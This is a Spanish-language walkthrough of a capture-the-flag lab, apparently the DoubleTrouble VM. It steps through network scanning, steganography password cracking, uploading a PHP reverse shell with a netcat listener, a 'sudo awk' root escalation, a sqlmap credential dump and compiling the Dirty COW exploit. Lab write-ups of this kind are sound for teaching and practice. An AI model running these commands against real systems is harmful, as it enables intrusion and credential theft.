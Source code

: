 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
![[Pasted image 20240225174411.png]]

**2.- Realizamos un escaneo de puertos**
Para realizar el escaneo de puertos hay que hacer un nmap.

nmap -sS -sV (ip de la máquina)
[Pasted image 20240225174515.png]

Hemos podido localizar que tiene el puerto 80 abierto, podemos decir que tiene una web corriendo.
Para cojer un poco más de información sobre la web relizaremos el siguiente comando.
![[Pasted image 20240225174632.png]]

una vez tenemos información sobre ella, entraremos a la web desde el navegador.
![[Pasted image 20240225174712.png]]

**3.- Mirar archivos o directorios ocultos**

Miramos si hay archivos ocultos gracias a la herramienta gobuster. Para ello introducimos el siguiente comando.

gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.76
![[Pasted image 20240225175144.png]]

vemos una carpeta un tanto sospechosa, esta se llama /secret. Para abrirla la pondemos en el navegador al lado de la ip

(ip)/secret
![[Pasted image 20240225175309.png]]

vemos que hay una imagen, la descargamos para analizarla. Para ello usaremos la siguiente herramienta stegseek.

stegseek doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt -xf img
![[Pasted image 20240225175639.png]]

podemos ver que se nos ha descargado una imagen. Miramos el contenido de la imagen. Para ello usaremos el cat.

cat img
![[Pasted image 20240225175806.png]]

Esto nos da las credenciales del login de la web. Entonces iniciaremos sesión.
![[Pasted image 20240226225242.png]]


y entramos a la configuracion del usuario
![[Pasted image 20240226225312.png]]

aqui subiremos un archivo php para ejecutar una reverse shell

al subirlo nos saldrá esto, entonces tendremos que ir a la carpeta /uploads/users
![[Pasted image 20240226225539.png]]
![[Pasted image 20240226225600.png]]

a partir de esto nos pondremos escuchando con netcat en el puerto 4444

nc -lnvp 4444
![[Pasted image 20240226225700.png]]

ahora le daremos click al archivo que acabamos de subir y obtendremos conexion
![[Pasted image 20240226225839.png]]
ya tenemos control, para ver la ruta haremos "script /dev/null -c bash"
![[Pasted image 20240226225948.png]]

ejecutamos el comando sudo -l para ver si tenemos algun permiso de administrador, y nos damos cuenta de que nos muestra el siguiente mensaje
![[Pasted image 20240226230104.png]]
Para escalar privilegios tendremos que escribir el siguiente comando
sudo awk 'BEGIN {system("/bin/bash")}'
![[Pasted image 20240226230216.png]]
con esto ya tenemos permiso de administrador, nos situamos en la carpeta root y vemos que tenemos otra ova, entonces la descargamos en nuestro ordenador local con el comando python -m http.server 80

y la ejecutamos
vemos que tenemos un login de administrador
![[Pasted image 20240226230456.png]]

para sacar las passwords de administrador ejecutaremos el siguiente comando
sqlmap -u http://10.0.0.28/index.php --forms --current-db -D doubletrouble -T users --dump
![[Pasted image 20240226231147.png]]

ahora entraremos via ssh en lel usuario clapton
![[Pasted image 20240226231309.png]]

ahora cojeremos un exploit para poder escalar privilegios: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

los descargaremos desde local con el comando wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
![[Pasted image 20240226231534.png]]

lo subiremos a un servidor python y lo descargaremos en el ssh
![[Pasted image 20240226231605.png]]

![[Pasted image 20240226231736.png]]

ya de paso vemos que tenemos un txt y lo abrimos y vemos que es la primera flag
![[Pasted image 20240226231812.png]]

una vez tenemos el exploit lo compilamos con el siguiente comando
gcc -pthread dirty.c -o dirty -lcrypt
![[Pasted image 20240226232420.png]]

una vez compilado lo ejecutamos
![[Pasted image 20240226232504.png]]
elegimos nueva contraseña y nos da un usuario llamado firefart que entraremos via ssh y escribiremos la nueva contraseña
![[Pasted image 20240226232623.png]]
 y miramos que contiene y ejecutamos la flag
 ![[Pasted image 20240226232701.png]]
